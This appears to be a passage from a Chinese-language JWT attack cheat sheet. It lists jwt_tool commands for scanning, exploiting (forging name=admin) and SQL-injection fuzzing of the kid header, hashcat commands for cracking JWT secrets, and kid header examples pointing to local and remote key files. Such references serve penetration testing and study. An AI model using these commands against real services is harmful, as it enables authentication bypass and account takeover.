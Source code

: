 * 侦察：`python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.aqNCvShlNT9jBFTPBpHDbt2gBB1MyHiisSDdp8SQvgw`
* 扫描：`python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -M pb`
* 利用：`python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -X i -I -pc name -pv admin`
* 模糊测试：`python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -I -hc kid -hv custom_sqli_vectors.txt`
* 审查：`python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -X i -I -pc name -pv admin`

#### Hashcat

> 在单个GTX1080上以365MH/s的速度破解JWT（JSON Web Token）的支持已添加到hashcat - [src](https://twitter.com/hashcat/status/955154646494040065)

* 字典攻击：`hashcat -a 0 -m 16500 jwt.txt wordlist.txt`
* 基于规则的攻击：`hashcat -a 0 -m 16500 jwt.txt passlist.txt -r rules/best64.rule`
* 暴力攻击：`hashcat -a 3 -m 16500 jwt.txt ?u?l?l?l?l?l?l?l -i --increment-min=6`


## JWT声明

[IANA的JSON Web Token声明](https://www.iana.org/assignments/jwt/jwt.xhtml)


### JWT kid声明误用

JSON Web Token（JWT）中的“kid”（密钥ID）声明是一个可选的头部参数，用于指示用于签名或加密JWT的加密密钥的标识符。需要注意的是，密钥标识符本身并不提供任何安全优势，而是使接收者能够定位验证JWT完整性所需的密钥。

* 示例#1：本地文件

  ```json
  {
  "alg": "HS256",
  "typ": "JWT",
  "kid": "/root/res/keys/secret.key"
  }
  ```

* 示例#2：远程文件

  ```json
  {
      "alg":"RS256",
      "typ":"JWT",
      "kid":"http://localhost:7070/privKey.key"
  }
  ```

在kid头部指定的文件内容将用于生成签名。
